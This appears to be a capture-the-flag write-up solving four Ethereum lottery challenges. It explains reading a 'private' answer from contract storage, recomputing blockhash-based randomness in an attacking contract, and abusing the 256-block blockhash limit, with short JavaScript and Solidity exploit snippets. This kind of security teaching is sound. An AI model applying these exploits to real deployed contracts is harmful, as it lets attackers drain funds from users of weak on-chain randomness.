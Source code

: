 ### Guess the random number
Although variables not declared as `public` cannot be accessed or modified by other contracts, they are still visible to everyone. Variables are stored in what are known as slots and stored sequentially with the first variable stored in slot 0, second variable stored in slot 1, and so on. The answer can be retrieved by reading the data stored in slot 0, which is in bytes, and converting it into an integer.
```
<!-- Javascript -->
answer = await ethers.provider.getStorageAt(challenge.address, 0);
tx = await challenge.guess(ethers.BigNumber.from(answer), {values:ethers.utils.parseEther('1')});
await tx.wait();
```
#### Reference
- <https://docs.soliditylang.org/en/v0.4.21/contracts.html#visibility-and-getters>{:target="_blank"}

### Guess the new number
Since the answer is computed when `guess()` function is called, the challenger can create a contract to call the `guess()` function with the exact same instructions `uint8(keccak256(block.blockhash(block.number - 1), now))` as the argument.
```
<!-- Solidity -->
function exploit(address _challenge) external payable {
    IChallenge(_challenge).guess.value(msg.value)(uint8(keccak256(block.blockhash(block.number - 1), now)));
    require(this.balance == 2 ether);
}
```

### Predict the future
Since the answer is computed when `settle()` function is called, the challenger can continue to call `settle()` and revert the transaction until `answer` equals `guess`. Having 10 possible answer only exacerbates the likelihood of a match in a short period of time.
```
<!-- Solidity -->
function exploit(address _challenge) external {
    IChallenge(_challenge).settle();
    require(address(this).balance == 2);
}
```

### Predict the blockhash
The `block.blockhash()` function only stores the hash for the 256 most recent blocks and any other blocks will return a value of 0.
1. Call `lockInGuess()` function with `bytes32(0)` as the argument.
2. Wait for more than 256 blocks to have been mined.
3. Call `settle()` function.

#### Reference
- <https://docs.soliditylang.org/en/v0.4.21/units-and-global-variables.html#special-variables-and-functions>{:target="_blank"}
